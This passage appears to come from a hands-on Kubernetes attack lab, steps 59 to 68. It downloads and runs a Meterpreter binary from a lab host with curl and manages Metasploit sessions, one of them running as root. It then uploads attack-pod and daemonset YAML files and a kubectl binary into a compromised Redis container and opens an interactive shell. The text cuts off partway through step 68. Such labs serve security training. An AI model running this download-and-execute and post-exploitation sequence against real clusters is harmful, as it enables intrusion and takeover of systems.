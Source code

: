 59. Let's make things easier on ourselves by adding a Meterpreter to this pod as well:

    ```shell
    curl http://10.23.58.30/mrsbin >mrsbin
    chmod 0700 mrsbin
    ./mrsbin
    ```

60. Hit `Ctrl-Z` then `Y` to background this Meterpreter channel.

61. Type `background` to get back to the Metasploit console.

    ```
    background
    ```

62. Type `sessions -l` (for list) to see that there's a second session available now.  The new one runs as `uid=0`!

    ```
    sessions -l
    ```

    - If there isn't a new session yet, your handler in Metasploit might not be accepting new connections.  If that's the case, use this troubleshooting step:

        ```
        exploit -j
        ```

63. Once you see a new session, type `sessions -i 2` to interact with the second session.

64. Upload two YAML files we'll use to start up pods from this Redis container.

    ```shell
    upload /root/K8S-Exercise/attack-pod.yaml
    upload /root/K8S-Exercise/daemonset-attack.yaml
    ```

65. Upload a kubectl binary to the Redis container.

    ```shell
    upload /root/K8S-Exercise/kubectl
    ```

66. Let's start a shell in this container by typing `shell` into the Metasploit console.

67. Make the shell interactive and easier to read by running a few commands:

    ```shell
    bash -i
    export PS1="\u@\h # "
    unalias ls
    export TERM=vt100
    ```

68. Now let's set up `kubectl` in the Redis master pod:

    ```shell
    chmod u+x kubectl
